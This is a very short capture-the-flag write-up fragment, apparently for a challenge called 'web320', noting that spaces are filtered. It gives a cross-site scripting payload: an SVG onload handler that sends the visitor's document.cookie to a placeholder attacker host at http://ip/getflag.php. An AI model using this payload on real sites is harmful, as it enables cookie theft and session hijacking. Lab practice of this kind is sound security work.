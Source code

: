 # web320
过滤了空格

```
<svg/onload="location.href='http://ip/getflag.php?cookie='+document.cookie"/>
```

![](vx_images/474352336026811.png)



